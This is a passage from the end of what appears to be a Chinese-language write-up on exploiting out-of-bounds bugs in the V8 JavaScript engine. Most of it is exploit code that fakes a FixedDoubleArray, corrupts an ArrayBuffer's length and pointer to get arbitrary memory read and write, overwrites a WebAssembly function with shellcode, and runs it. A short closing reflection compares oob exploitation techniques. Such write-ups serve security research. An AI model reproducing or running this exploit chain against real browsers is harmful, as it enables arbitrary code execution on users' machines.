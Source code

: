 ```
var element_addr = faker_addr - 0x60n;
print('element_addr=' + element_addr.toString(16));
//fake a FixedDoubleArray
faker[0] = double_element_map;
faker[1] = i2f64(0n);
faker[2] = i2f64(element_addr+0x1n);
faker[3] = i2f64(0x300000000000n);

var oob_arr = fakeObject(element_addr + 0x10n);
oob_arr[0x11] = i2f64(0x1000n); //修改ArrayBuffer的length
oob_arr[0x12] = i2f64(wasm_shellcode_ptr_addr);


var adv = new DataView(arb_buf);
var wasm_shellcode_addr = adv.getBigUint64(0,true);
print('wasm_shellcode_addr=' + wasm_shellcode_addr.toString(16));

oob_arr[0x12] = i2f64(wasm_shellcode_addr);
//替换wasm的shellcode
for (var i=0;i&lt;shellcode.length;i++) `{`
   adv.setUint32(i*4,shellcode[i],true);
`}`
//%SystemBreak();
//执行shellcode
func();
```



## 0x05 感想

oob类型的v8漏洞，其利用手法大多相似，不同点在于如何构造出oob数组。从一开始的直入主题到一般情况再到回调函数中的oob以及JIT中的oob，收获了许多知识。
